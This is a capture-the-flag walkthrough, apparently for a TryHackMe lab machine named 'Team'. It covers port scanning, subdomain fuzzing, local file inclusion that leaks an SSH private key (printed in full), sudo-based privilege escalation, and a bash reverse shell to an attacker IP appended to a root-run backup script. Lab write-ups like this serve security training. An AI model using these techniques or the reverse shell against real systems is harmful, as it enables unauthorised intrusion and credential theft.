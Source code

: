 > Author: jak010  
> Date: 2021.05.19  

## Setup
- `sudo  echo "{EXPORT_IP} team.thm" >> /etc/hosts`

## Scan
- Command
    ```sh
    $ nmap -sC -sV {EXPORT_IP}
    ```
    - Result
        ```
        ...
        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.3
        22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey:
        |   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
        |   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
        |_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
        |_http-server-header: Apache/2.4.29 (Ubuntu)
        |_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
        ...
        ```

## Web Enumeration
 - `http://team.thm/robots.txt`
    - Result
        ```
        dale
        ```

## Sub Domain Fuzz 
 - Command
    ```sh
    $ wfuzz -c --hw 977 -u http://team.thm -H "Host: Fuzz.team.thm" -w /usr/share/seclists/Discovery/DNS/namelist.txt
    ```
    - Reuslt
        ```
        ********************************************************
        * Wfuzz 3.1.0 - The Web Fuzzer                         *
        ********************************************************

        Target: http://team.thm/
        Total requests: 1907

        =====================================================================
        ID           Response   Lines    Word       Chars       Payload     
        =====================================================================
        000000494:   200        9 L      20 W       187 Ch      "dev - dev" 
        000001866:   200        89 L     220 W      2966 Ch     "www - www" 
        ```
        - Setting up
            - `echo EXPORT_IP dev.team.thm >> /etc/hosts` 

## LFI && Private Key Gaining
- `wordlist`: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
- `SSH Private key`: `http://dev.team.thm/script.php?page=/etc/ssh/sshd_config`
    - `dale.sshkey`
        ```
        -----BEGIN OPENSSH PRIVATE KEY-----
        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
        -----END OPENSSH PRIVATE KEY-----
        ```
        - ssh -i dale.sshkey dale@team.thm

## PRIVILEGE ESCALATE
- `sudo -l`
    ```text
    Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
    ```
    - `Run`: sudo -u gyles /home/gyles/admin_checks
        - `Input`: `/bin/bash`
    - `Work Flow`
        ```sh
        $ cd /home/gyles
        $ cat .bash_history
        ...
        cat /usr/local/bin/main_backup.sh 
        ...
        $ ls -al /usr/local/bin/main_backup.sh 
        -rwxrwxr-x 1 root admin 65 Jan 17 20:36 /usr/local/bin/main_backup.sh
        ```
        - `Reverse Shell Payload`
            ```sh
            bash -i >& /dev/tcp/10.9.26.67/4444 0>&1
            ```
            - echo "REVERSE_SHELL_PAYLOAD >> main_backup.sh"



